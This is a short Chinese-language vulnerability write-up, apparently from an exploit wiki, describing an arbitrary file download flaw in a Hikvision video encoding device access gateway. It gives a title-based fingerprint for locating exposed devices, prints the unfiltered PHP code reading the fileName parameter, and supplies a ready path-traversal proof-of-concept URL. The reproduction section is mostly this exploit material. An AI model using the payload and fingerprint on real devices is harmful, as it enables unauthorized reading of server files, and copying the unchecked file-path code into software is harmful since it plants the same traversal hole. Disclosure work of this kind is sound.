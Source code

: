 # HIKVISION 视频编码设备接入网关 showFile.php 任意文件下载漏洞

## 漏洞描述

海康威视视频接入网关系统在页面`/serverLog/showFile.php`的参数fileName存在任意文件下载漏洞

## 漏洞影响

<a-checkbox checked>HIKVISION 视频编码设备接入网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="视频编码设备接入网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1630063019704-4b10f55b-d725-4866-b5aa-e73d638b2f27.png)

漏洞文件为 `showFile.php`, 其中 `参数 fileName` 没有过滤危险字符，导致可文件遍历下载



```php
<?php
					$file_name = $_GET['fileName'];
					$file_path = '../../../log/'.$file_name;
					$fp = fopen($file_path, "r");
					while($line = fgets($fp)){
						$line = nl2br(htmlentities($line, ENT_COMPAT, "utf-8"));
						echo '<span style="font-size:16px">'.$line.'</span>';
					}
					fclose($fp);
?>
```



验证POC

```python
/serverLog/showFile.php?fileName=../web/html/main.php
```

![img](/assets/PeiQi-Wiki/img/1630063348342-40566a14-18d5-467b-b259-ad3c6888c456.png)